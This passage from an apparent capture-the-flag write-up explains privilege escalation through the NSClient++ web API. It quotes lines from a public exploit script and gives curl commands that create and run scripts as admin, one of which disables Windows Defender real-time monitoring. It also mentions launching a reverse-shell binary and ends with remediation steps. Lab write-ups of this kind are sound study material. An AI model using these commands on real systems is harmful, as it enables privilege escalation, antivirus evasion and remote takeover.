 I tried to figure out how to do this from the command line, but I could not. You should be able to edit the `C:\Program Files\NSClient++\nsclient.ini` to add the script in the right spot. It will look like this where the script is called `reverse_script` and it calls `C:\Users\nadine\reverse.exe`: 
```
; External scripts - A list of scripts available to run from the CheckExternalScripts module. Syntax is: `command=script arguments`
reverse_script = C:\Users\nadine\reverse.exe
```

I was not able to do this because I did not have write privileges over the `nsclient.ini` file. 

There is one final option, which is to use the API. [This](https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation/blob/master/exploit.py) exploit from xtizi does just that. The relevant lines are:
```
response = requests.put(args.host+'/api/v1/scripts/ext/scripts/exploit1.bat', data=args.command, verify=False, auth=('admin', args.password))
print(response)
response = requests.get(args.host+'/api/v1/queries/exploit1/commands/execute?time=1m', verify=False, auth=('admin', args.password))
print(response)
```

Where we send a request to `/api/v1/scripts/ext/scripts/`, creating our script called `exploit1.bat`, which includes the data field where we enter our command. Then we pass a second request which executes it every 1 minute. This worked: `python3 exploit.py 'C:\Users\nadine\reverse.exe' https://127.0.0.1:8443 ew2x6SsGTxjRwXOT` to catch a reverse shell after I had already disabled the AV and uploaded `C:\Users\nadine\reverse.exe` binary. 

We can also do this with curl commands. Here is an example of the two commands required to create the external script to disabled the AV and then to run that external script:
1. `curl -k -X PUT -u admin:ew2x6SsGTxjRwXOT "https://127.0.0.1:8443/api/v1/scripts/ext/scripts/removeAV.bat" -d "powershell Set-MpPreference -DisableRealtimeMonitoring $true"`
	1. In this case, the `-k` flag removes ssl verification (good because we are requesting from port 8443 which defaults to https), and the `-X` flag signifies the request type. The `-u` flag calls the user parameter as definited by the NSClient++ API, and then `-d` flag is to tell it what data to send. 
2. `curl -k -X GET -u admin:ew2x6SsGTxjRwXOT "https://127.0.0.1:8443/api/v1/queries/removeAV/commands/execute?time=1m"`

So there's a little extra deep dive that I feel like helped me become a little more familiar next time I encounter a similar box. 

### Remediation Steps
- Remove the file from the FTP server that suggests where the passwords are, or at least remove the description of where the passwords are. 
- Patch the NVMS server. 
- Patch the NSClient++ server. 